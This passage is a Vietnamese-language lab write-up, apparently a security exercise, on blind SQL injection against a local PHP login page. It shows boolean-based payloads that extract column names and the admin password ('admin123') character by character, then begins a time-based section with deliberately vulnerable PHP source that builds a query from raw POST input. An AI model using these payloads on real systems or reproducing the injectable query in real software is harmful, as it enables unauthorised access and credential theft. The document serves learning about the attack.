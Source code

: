 ![](https://i.imgur.com/cqy03O8.png)

*=> độ dài của tên cột thứ nhất là 2, thứ hai là 8 và thứ ba là 8 là*

Em tiếp tục brute force tên cột bằng: 
`' OR (case when substring((select column_name from information_schema.columns where table_name='task_3' limit 2,1),§1§,1)='§0§' then 1 else 0 end)=1 -- `

![](https://i.imgur.com/Gri8pfd.png)

Em tăng dần param thứ nhất của limit: `LIMIT 0,1`, `LIMIT 1,1`, `LIMIT 2,1` để brute force tên của từng cột và được kết quả.

Cột thứ nhất: `id`
![](https://i.imgur.com/iGnDxaK.png)

Cột thứ hai: `username`
![](https://i.imgur.com/CSoyXm2.png)

Cột thứ ba: `password`
![](https://i.imgur.com/jIj69xG.png)

Sau khi đã tìm xong hết tên bảng và tên cột, em đến với bước cuối cùng

**Bước 3: Lấy dữ liệu**

Dữ liệu mà em muốn lấy ở đây là password của admin, để lấy được thì trc hết em vẫn cần biết độ dài của password, nên em dùng: 
`' OR (case when (select length(password) from task_3 limit 0,1)>7 then 1 else 0 end)=1 -- `

![](https://i.imgur.com/M1x9V3J.png)

*=> độ dài của password là 8*

Có độ dài của password rồi bước cuối cùng là brute force password thoiii:
`' OR (case when substring((select password from task_3 limit 0,1),§1§,1)='§0§' then 1 else 0 end)=1 -- `

![](https://i.imgur.com/05P4EwC.png)

Start attack và em được kết quà: `admin123`

![](https://i.imgur.com/slvuKJS.png)

*=> Vậy `admin ~ admin123` chính là thông tin đăng nhập của admin.*

---

## Time based 
Source code:
```php
    if(isset($_POST['login'])) {
        $username = $_POST['username'];
        $password = $_POST['password'];
        $conn = mysqli_connect("localhost", "root", "", "kcsc");
        $sql = "SELECT * FROM `task_3` WHERE `username` = '$username' AND `password` = '$password'";
        $resullt = mysqli_query($conn, $sql);   
        // $row = mysqli_num_rows($resullt);
        if($resullt) {
            if (isset($_POST['remember'])) {
                setcookie('remember', base64_encode($username.md5($username)), time() + (86400 * 30), "/");
            } else {
                setcookie('remember', '', time() - 3600, "/");
            }
```